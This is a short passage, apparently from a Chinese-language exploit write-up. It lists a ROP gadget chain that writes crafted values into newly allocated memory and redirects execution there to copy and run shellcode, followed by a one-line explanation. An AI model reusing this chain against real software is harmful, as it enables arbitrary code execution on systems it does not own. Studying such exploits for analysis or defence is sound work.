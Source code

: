 我已经将其总结如下：

```
pop ecx/retn ; set ecx to 0xc30c4889
mov dword ptr [eax], ecx/pop ebp/retn ; move ecx to newly allocated memory (pointed by eax)
pop ecx/retn ; set ecx to 0x9090a5f3
push eax/retn ; redirect execution to newly allocated memory
mov dword ptr [eax+0xc], ecx/ retn ; mov ecx to newly allocated memory (screenshot 9)
pop ecx/retn ; set ecx to 0xc3084889
mov dword ptr [eax], ecx/pop ebp/retn ; move ecx to newly allocated memory (pointed by eax)
pop ecx/retn ; set ecx to 0x90909090
push eax/retn ; redirect execution to newly allocated memory
mov dword ptr [eax+0x8], ecx/retn ; move ecx to newly allocated memory (pointed by eax)
pop ecx/retn ; set ecx to 0xc3044889
mov dword ptr [eax], ecx/pop ebp/retn ; move ecx to newly allocated memory (pointed by eax)
pop ecx/retn ; set ecx to 0x9090ee87
push eax/retn ; redirect execution to newly allocated memory
mov dword ptr [eax+0x4], ecx/retn; move ecx to newly allocated memory (pointed by eax)
pop ecx/retn ; set ecx to 0x10788d60
mov dword ptr [eax], ecx/retn ;
pop ecx/retn ; set ecx to 0x143
push eax/retn ; now we are at the shellcode 
```

![enter image description here](img/img24_u1_png.jpg)

这部分 ROP 载荷将从主 shellcode 中拷贝 0x143 个 DWORD 到新分配的内存空间中。
